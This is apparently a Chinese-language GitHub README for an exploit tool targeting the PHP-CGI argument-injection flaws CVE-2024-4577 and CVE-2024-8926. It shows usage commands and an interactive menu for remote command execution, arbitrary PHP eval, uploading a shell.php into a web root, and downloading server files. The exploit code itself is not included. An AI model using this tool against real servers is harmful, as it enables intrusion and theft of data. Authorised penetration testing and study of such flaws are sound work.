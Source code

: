 # PHP-CGI Injector

🚀 **CVE-2024-4577 & CVE-2024-8926 Exploit Tool**

> 針對 **PHP-CGI 參數注入漏洞** 的自動化測試工具，支持 **CVE-2024-4577** 和 **CVE-2024-8926**，可進行 **命令執行、文件上傳、下載** 等操作。

---

## **📌 介紹**
本工具可用於測試 **PHP-CGI 環境中的參數注入漏洞**，並提供：
- ✅ **自動掃描漏洞**
- ✅ **多種攻擊模式**
- ✅ **支持 `system()` 命令執行**
- ✅ **支持 `eval()`任意代碼執行**
- ✅ **支持上傳與下載檔案**
- ✅ **可自動記錄命令執行歷史 (`--log`)**
- ✅ **自動轉換輸出編碼，避免亂碼**

---

## **📜 免責聲明**
**本工具僅限於合法測試與學術用途，請勿用於未經授權的系統！**
> **⚠️ 非法使用將承擔法律責任！**

本工具僅供：
- 🔹 **企業紅隊滲透測試**
- 🔹 **CTF 安全研究**
- 🔹 **個人安全學習**
  
---

## **📥 安裝依賴**
本工具依賴以下 Python 套件，請先安裝：
```bash
pip install -r requirements.txt
```
或者手動安裝：
```bash
pip install requests urllib3 chardet
```

---

## **🛠️ 使用方法**
### **📌 基本用法**
```bash
python exploit.py -u <目標網站> [--timeout=sec] [--log]
```
範例：
```bash
python exploit.py -u http://example.com --timeout=30 --log
```

### **📌 參數選項**
| 參數 | 說明 | 範例 |
|------|------|------|
| `-u` | 指定目標網站 | `-u http://example.com` |
| `--timeout=sec` | 設定請求超時 (`1-120` 秒)，`0` 代表無限等待 | `--timeout=30` |
| `--log` | 啟用 Shell 模式的自動記錄 | `--log` |

---

## **📌 操作模式**
當腳本找到漏洞後，會顯示選單：
```
[+] 找到漏洞入口 : /php-cgi/php-cgi.exe (漏洞: CVE-2024-4577)

[*] 當前目標: http://example.com/ (漏洞: CVE-2024-4577)
模式選擇:
1) Shell模式 (使用system()執行命令)
2) PHP自訂義模式 (使用eval()執行任意代碼)
3) 上傳檔案
4) 下載檔案
5) 切換攻擊目標
6) 離開程式
```

---

## **📌 模式詳解**
### **1️⃣ Shell 模式**
執行 **系統命令**：
```
shell> whoami
```
📂 **儲存輸出**
```
shell> whoami --save
```
```
shell> whoami --save C:\output\whoami.txt
```

---

### **2️⃣ PHP 自訂模式**
執行 **自訂 PHP 代碼**：
```
phpinfo();
EOF
```
📂 **儲存輸出**
```
phpinfo();
EOF --save
```
```
phpinfo();
EOF --save C:\output\info.html
```

---

### **3️⃣ 上傳檔案**
```
本地檔案路徑：C:\test\shell.php
目標完整路徑：
[*] 已自動設定上傳路徑為: C:/xampp/htdocs/shell.php
```
📂 **手動指定路徑**
```
目標完整路徑：C:\xampp\php\shell.php
```

---

### **4️⃣ 下載檔案**
```
遠端檔案路徑：C:\xampp\htdocs\index.php
```
📂 **檔案下載後儲存於 `download/`，若有重複，會自動添加編號**
```
[*] 檔案下載完成，儲存在 download/index.php
```

---

### **5️⃣ 切換攻擊目標**
```
輸入新目標URL: http://newtarget.com
```
🔹 **將重新測試漏洞**

---

### **6️⃣ 離開程式**
```
[*] 程式結束
```
